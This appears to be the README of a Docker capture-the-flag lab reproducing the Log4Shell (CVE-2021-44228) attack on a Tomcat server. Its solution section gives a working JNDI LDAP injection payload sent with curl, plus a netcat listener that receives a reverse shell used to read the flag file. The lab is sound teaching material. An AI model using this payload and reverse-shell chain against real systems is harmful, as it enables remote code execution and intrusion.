 This repo is to be used for educational purposes only, and is intended to be run against your own machine. We do not condone the use of these skills/techniques outside of this lab environment. DO NOT change any files or commands; run exactly as described in “Starting the Lab Environment".


**Scenario**

A local kitten daycare has recently suffered a zero-day exploit resulting in full system compromise via RCE (remote code execution). A digital forensics team investigating the incident has created a LAB environment meant to serve as a proof-of-concept for what happened. Can you replicate what happened that fateful day for the local kitten daycare?



**Pre-Requisites**
1.    Docker Desktop – https://www.docker.com/products/docker-desktop/ 
2.    Git – https://git-scm.com/book/en/v2/Getting-Started-Installing-Git 



**Starting the Lab Environment**

1.    Open Docker Desktop 
2.    Run '**git clone https://github.com/sgwgsw/Rowdyhacks2022-CTF.git**' in a terminal window.
3.    Change to the Rowdyhacks2022-CTF folder and run '**docker compose up -d**' with admin/sudo privileges. This is done on your local machine, not Docker Desktop.
4.    Once the command has finished running, select 'Containers / Apps' in Docker Desktop to confirm all containers in the stack are running


**Hints**

1.    To start a Docker CLI session, hover over the container in 'Containers / Apps' on Docker Desktop and click the 'CLI' button. **DO NOT open CLI sessions by other means.**
2.    You will not need a CLI session on web_server (remember - this would be the victim's web server which we are trying to hack. An attacker wouldn't have access to this system).  
3.    Use '**ping -c 1 <container_hostname>**' to get the IP of any container. Hostnames are: web_server, http_server, ldap_server, c2_instance, curl_instance
4.    The web_server container is running a Tomcat web server instance 8080. Log4j 2.14.0 is in-use.
5.    The curl_instance container will be useful for sending the exploit.
6.    The c2_instance container has netcact. 
7.    The ldap_server container is hosting the reference object, 'Exploit'.
8.    The http_server container is hosting compiled java code. This code wants to communicate on port 9999. 



**WHEN YOU ARE FINISHED**
1.    Close any CLI/terminal sessions
2.    Click the stop button in 'Containers / Apps' on Docker Desktop
3.    Run 'docker system prune -a' on the host machine, and press 'y' when prompted
4.    Delete the cloned Log4j_LAB-Docker repo/folder on your machine


**Solution** - 

There are several approaches to solving this CTF. Here is one successful approach to our CVE-2021-44228 challenge. 

1.    Open a CLI session on the curl_instance container. Do this through Docker Desktop by selecting the ‘CLI’ button next to the curl_instance container.

2.    Open a CLI session on the c2_instance container.

3.    Run ‘ping -c 1 web_server’ in curl_instance or c2_instance to get the IP address of the vulnerable web server. 

4.    In c2_instance, run ‘nc -nlvp 9999’. The instructions stated that the compiled java code would want to talk on port 9999. We need to open a listener on that port to receive the java code, which is a reverse shell. 

5.    In curl_instance, we will send the exploit payload. Run curl -A “\{jndi:ldap://ldap_server:1389/Exploit}” http://<web_server_IP>:8080, where <web_server_IP> is the IP address recovered from step 3 above. [1] When this payload is received by web_server, instead of Log4J logging the header it will make a connection to ldap_server on port 8080, asking for the Exploit reference object. [2] ldap_sever then queries the reference object which links out to http_server hosting the java code. [3] The reverse shell is sent to web_server and opened on c2_instance. 

6.    Run ‘find / -name flag.txt’ in c2_instance, which is now a reverse shell executing these commands on web_server. 

7.    Run ‘cat /usr/local/tomcat/flag.txt’ to print the flag. This location will be output from step 6 above. 
